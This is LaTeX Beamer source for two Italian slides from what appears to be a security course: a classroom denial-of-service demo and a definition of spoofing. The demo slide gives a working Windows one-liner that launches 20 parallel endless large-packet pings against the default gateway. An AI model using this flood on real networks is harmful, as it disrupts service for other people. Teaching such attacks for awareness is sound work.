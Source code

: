 \documentclass[aspectratio=1610]{beamer}
\begin{document}
\begin{frame}{DENIAL OF SERVICE (DoS) - ESEMPIO}
    \begin{enumerate}
        \item Aprire il Task Manager e visualizzare l’attuale consumo di risorse;
        \pause
        \item Trovare l'indirizzo IP del Gateway predefinito: \textbf{ipconfig};
        \pause
        \item Eseguire un attacco DoS creando 20 terminali che inviano infiniti pacchetti di dati in parallelo 
        all'indirizzo IP del Gateway predefinito:\\ 
        \textbf{for /L \%i in (1,1,20) do start "" cmd /k "ping -t -l 65500 \textcolor{red}{ip\_gateway}"};
        \pause
        \item Aprire il Task Manager e visualizzare l’attuale consumo di risorse;
        \pause
        \item Terminare l'attacco: \textbf{taskkill /F /IM cmd.exe};
    \end{enumerate}                        
\end{frame}

\begin{frame}{SPOOFING}
    \begin{alertblock}{DEFINIZIONE}
        \begin{minipage}{0.98\linewidth}
            \justifying
            Attacco informatico che può assumere varie forme e può essere perpetrato in un'infinità di modi. 
            A prescindere dalle modalità adottate dai criminali informatici nell'usare questa tecnica, 
            un qualsiasi attacco di spoofing è sempre caratterizzato da un elemento distintivo che lo 
            rende particolarmente insidioso: viene sfruttata la fiducia delle potenziali vittime per accedere a 
            dati, diffondere malware, sottrarre denaro, e perpetrare altri obiettivi malevoli dietro un 
            \textbf{inganno} che, inizialmente, è tutt'altro che palese.\\
            \bigskip
            \tiny{\textbf{Curiosità}}\\
            \tiny{\href{https://www.scamadviser.com/}{Scam Adviser}}
        \end{minipage}
    \end{alertblock}
\end{frame}
\end{document}
